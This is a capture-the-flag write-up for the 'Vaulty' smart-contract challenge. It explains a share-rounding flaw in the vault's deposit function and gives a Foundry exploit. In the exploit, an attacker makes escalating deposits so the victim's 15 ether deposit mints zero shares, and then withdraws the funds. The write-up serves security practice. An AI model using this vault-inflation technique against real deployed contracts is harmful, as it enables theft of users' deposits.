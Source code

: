 # romeroadrian-vaulty - Solution

## Find the vulnerability

In this challenge we need to sandwich Alice that is depositing 15 ether into Vaulty contract. It seems we need to do something like a donation attack.

Looking at `deposit` function we see that it divides by `INITIAL_RATE` and assets to calculate shares:

```python
if supply == 0:
    assert msg.value >= INITIAL_RATE
    shares = unsafe_div(msg.value, INITIAL_RATE)
else:
    shares = unsafe_div(msg.value * supply, assets)
```

Bingo! We can take advantage of division rouding error to make multiple donations, that increase with each interaction, leaving shares at 1.

When Alice deposit to Vaulty she will get 0 shares because assets will be > 15 ether and supply = 1.

## Exploit the contract

```solidity
vm.startPrank(player);
/*//////////////////////////////////////
//     Write your solution here       //
//////////////////////////////////////*/
vaulty.deposit{value: 2 * 10 ** 9 - 1}();
for (uint256 i = 1;; i++) {
    uint256 depositAmount = 2 ** i * 10 ** 9 - 2 ** i;
    if (address(player).balance < depositAmount) {
        break;
    }
    vaulty.deposit{value: depositAmount}();
}
/*//////////////////////////////////////
//         Do not touch this          //
//////////////////////////////////////*/
vm.stopPrank();

vm.startPrank(alice);
vaulty.deposit{value: 15 ether}();
vm.stopPrank();

vm.startPrank(player);
/*//////////////////////////////////////
//     Write your solution here       //
//////////////////////////////////////*/
vaulty.withdraw(1);
```
